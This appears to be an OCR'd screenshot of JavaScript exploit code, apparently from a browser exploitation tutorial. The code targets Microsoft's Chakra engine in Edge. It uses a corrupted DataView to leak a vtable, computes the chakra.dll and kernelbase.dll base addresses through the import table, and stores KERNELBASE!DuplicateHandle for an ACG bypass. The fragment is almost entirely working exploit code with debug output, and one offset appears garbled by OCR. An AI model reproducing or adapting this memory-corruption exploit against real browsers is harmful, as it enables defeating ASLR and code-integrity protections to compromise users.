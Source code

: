 ```html
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    document.write("[+] DataView object 2 leaked vtable from chakra.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    document.write("<br>");

    // Store the base of chakra.dll
    chakraLo = vtableLo - 0x5d0bf8;
    chakraHigh = vtableHigh;

    // Print update
    document.write("[+] chakra.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
    document.write("<br>");

    // Leak a pointer to kernelbase.dll (KERNELBASE!DuplicateHandle) from the IAT of chakra.dll
    // chakra+0x5ee2b8 points to KERNELBASE!DuplicateHandle
    kernelbaseLeak = read64(chakraLo+0x5ee2b8, chakraHigh);

    // KERNELBASE!DuplicateHandle is 0x18de0 away from kernelbase.dll's base address
    kernelbaseLo = kernelbaseLeak[0]-x18de0;
    kernelbaseHigh = kernelbaseLeak[1];

    // Store the pointer to KERNELBASE!DuplicateHandle (needed for our ACG bypass) into a more aptly named variable
    var duplicateHandle = new Uint32Array(0x4);
    duplicateHandle[0] = kernelbaseLeak[0];
    duplicateHandle[1] = kernelbaseLeak[1];

    // Print update
    document.write("[+] kernelbase.dll base address: 0x" + hex(kernelbaseHigh) + hex(kernelbaseLo));
    document.write("<br>");

    // ---------------------------------------------------------------------------------------------

    // Print update with our type pointer
    document.write("[+] type pointer: 0x" + hex(typeHigh) + hex(typeLo));
    document.write("<br>");

    // Spawn an alert dialogue to pause execution
    alert("DEBUG");
}
</script>
```
